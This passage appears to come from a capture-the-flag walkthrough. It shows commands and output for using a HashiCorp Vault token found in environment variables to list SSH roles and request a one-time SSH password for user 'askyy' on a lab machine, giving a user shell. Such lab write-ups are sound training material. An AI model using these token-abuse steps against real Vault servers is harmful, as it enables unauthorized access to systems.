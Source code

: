 The above resource will guide us how to get password from the server.

```bash
#sample input snip i took from above resource
curl \
    --header "X-Vault-Token: ..." \
    --request POST \
    --data @payload.json \
    http://127.0.0.1:8200/v1/ssh/creds/my-role

# X-Valut Token is present in our env variable already
# my-role is something we need to figure out, if you go through the above resource, 
# you can find list-roles section

╰─➤  ./vault list ssh/roles  
Keys
----
admin_otp_key_role
dev_otp_key_role

# Our role ofc will be dev_otp_key_role
```

Inputing all values, we can now have user shell (FINALLY)\


* Contents of payload.json file

```json
{
  "ip": "10.10.11.254",
  "username": "askyy"
}
```

```bash
╰─➤  curl \
    --header "X-Vault-Token: $VAULT_TOKEN" \
    --request POST \
    --data @payload.json \
    "$VAULT_ADDR/v1/ssh/creds/dev_otp_key_role" -s | jq 
{
  "request_id": "169b4ad6-4f97-f3f2-dbb1-5f0d10f728b3",
  "lease_id": "ssh/creds/dev_otp_key_role/E9e2CSxalqEpmsyKf8Jq3QRf",
  "renewable": false,
  "lease_duration": 2764800,
  "data": {
    "ip": "10.10.11.254",
    "key": "3aad6a0c-cfad-68cf-34cf-c0d72257d8c8",
    "key_type": "otp",
    "port": 22,
    "username": "askyy"
  },
  "wrap_info": null,
  "warnings": null,
  "auth": null
}

```
